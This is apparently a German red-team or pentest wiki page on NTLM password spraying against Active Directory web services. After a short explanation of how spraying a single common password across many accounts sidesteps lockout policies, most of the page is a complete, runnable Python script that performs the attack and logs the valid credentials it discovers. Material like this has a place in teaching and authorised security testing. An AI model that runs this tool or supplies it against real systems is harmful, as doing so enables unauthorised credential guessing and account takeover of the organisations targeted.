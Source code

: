 # NTLM-Brute-Force

Diese exponierten Dienste bieten Angreifern potenzielle Angriffspunkte, um Anmeldeinformationen zu testen oder zu erbeuten. Im Rahmen von Sicherheitstests oder Red-Team-Übungen werden oft Nutzernamen oder E-Mail-Adressen gesammelt, die als Ausgangspunkt für Authentifizierungsangriffe dienen können.

Da in den meisten AD-Umgebungen Kontosperrungsrichtlinien aktiviert sind, ist ein klassischer Brute-Force-Angriff meist nicht praktikabel. Stattdessen wird häufig eine **Password-Spraying-Attacke** eingesetzt. Hierbei wird nicht versucht, viele verschiedene Passwörter für einen Benutzer zu testen, sondern es wird ein einzelnes Passwort gegen viele Benutzerkonten getestet. So werden zu viele Fehlversuche bei einzelnen Konten vermieden und Sperrungen werden umgangen.

Beispiel: In einer Red-Team-Übung wurde eine Liste von Benutzernamen ermittelt. Zudem ist bekannt, dass ein Standard-Initialpasswort wie „Welcome123!“ noch häufig verwendet wird, obwohl Benutzer eigentlich zur Änderung verpflichtet sind. Mit einem speziell entwickelten Skript kann nun eine Password-Spraying-Attacke auf einen Webservice durchgeführt werden, der über die URL `http://authserver.company.local` erreichbar ist.

{% hint style="warning" %}
**Hinweis:** Password-Spraying-Angriffe können aufgrund der hohen Anzahl fehlgeschlagener Anmeldeversuche von Sicherheitssystemen erkannt und protokolliert werden.
{% endhint %}

{% code title="pwsprayer.py" %}
```python
#!/usr/bin/python3

import requests
from requests_ntlm import HttpNtlmAuth
import sys
import getopt
import datetime
import os

class NTLMSprayer:
    def __init__(self, fqdn, output_file=None, verbose=True):
        self.HTTP_AUTH_FAILED_CODE = 401
        self.HTTP_AUTH_SUCCEED_CODE = 200
        self.verbose = verbose
        self.fqdn = fqdn
        self.output_file = output_file
        self.valid_credentials = []

    def load_users(self, userfile):
        """Lädt Benutzernamen aus einer Datei"""
        try:
            with open(userfile, 'r') as f:
                self.users = [line.strip() for line in f if line.strip()]
        except FileNotFoundError:
            print(f"[!] Fehler: Die Datei '{userfile}' wurde nicht gefunden.")
            sys.exit(1)

    def log_result(self, message):
        """Optional: Ergebnis in Ausgabedatei schreiben"""
        if self.output_file:
            with open(self.output_file, 'a') as f:
                f.write(message + "\n")

    def password_spray(self, password, url):
        """Führt die Password-Spray-Attacke durch"""
        print(f"\n[*] Starte Password-Spray-Angriff mit Passwort: '{password}'\n")
        count = 0
        for user in self.users:
            try:
                response = requests.get(url, auth=HttpNtlmAuth(f"{self.fqdn}\\{user}", password), timeout=10)
            except requests.RequestException as e:
                print(f"[!] Netzwerkfehler bei Benutzer {user}: {e}")
                continue

            if response.status_code == self.HTTP_AUTH_SUCCEED_CODE:
                msg = f"[+] Erfolgreich: {user} : {password}"
                print(msg)
                self.log_result(msg)
                self.valid_credentials.append((user, password))
                count += 1
            elif self.verbose and response.status_code == self.HTTP_AUTH_FAILED_CODE:
                print(f"[-] Fehlgeschlagen: {user}")
            elif self.verbose:
                print(f"[!] Unerwarteter Statuscode ({response.status_code}) für Benutzer {user}")
        print(f"\n[*] Angriff abgeschlossen – {count} gültige Zugangsdaten gefunden.\n")
        if self.output_file:
            print(f"[*] Ergebnisse gespeichert in: {self.output_file}")

def print_usage():
    """Ausgabehilfe für das Script"""
    usage = (
        "\nVerwendung:\n"
        "  ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <url> [-o <outputfile>] [-q]\n\n"
        "Optionen:\n"
        "  -u, --userfile     Pfad zur Datei mit Benutzernamen\n"
        "  -f, --fqdn         FQDN (z. B. za.domain.local)\n"
        "  -p, --password     Zu testendes Passwort\n"
        "  -a, --attackurl    URL der NTLM-geschützten Ressource\n"
        "  -o, --output       (Optional) Datei zur Speicherung gültiger Logins\n"
        "  -q, --quiet        Keine Ausgaben bei Fehlversuchen\n"
        "  -h, --help         Diese Hilfe anzeigen\n"
    )
    print(usage)

def main(argv):
    userfile = fqdn = password = attackurl = output_file = ""
    verbose = True

    try:
        opts, _ = getopt.getopt(argv, "hu:f:p:a:o:q", [
            "help", "userfile=", "fqdn=", "password=", "attackurl=", "output=", "quiet"
        ])
    except getopt.GetoptError:
        print_usage()
        sys.exit(2)

    for opt, arg in opts:
        if opt in ("-h", "--help"):
            print_usage()
            sys.exit()
        elif opt in ("-u", "--userfile"):
            userfile = arg
        elif opt in ("-f", "--fqdn"):
            fqdn = arg
        elif opt in ("-p", "--password"):
            password = arg
        elif opt in ("-a", "--attackurl"):
            attackurl = arg
        elif opt in ("-o", "--output"):
            output_file = arg
        elif opt in ("-q", "--quiet"):
            verbose = False

    if all([userfile, fqdn, password, attackurl]):
        # Ergebnisdatei vorbereiten
        if output_file:
            with open(output_file, 'w') as f:
                f.write(f"# Password-Spray-Ergebnisse – {datetime.datetime.now()}\n")

        # Angriff starten
        sprayer = NTLMSprayer(fqdn, output_file=output_file, verbose=verbose)
        sprayer.load_users(userfile)
        sprayer.password_spray(password, attackurl)
    else:
        print("[!] Fehler: Alle Pflichtparameter müssen angegeben werden.\n")
        print_usage()
        sys.exit(2)

if __name__ == "__main__":
    main(sys.argv[1:])
```
{% endcode %}
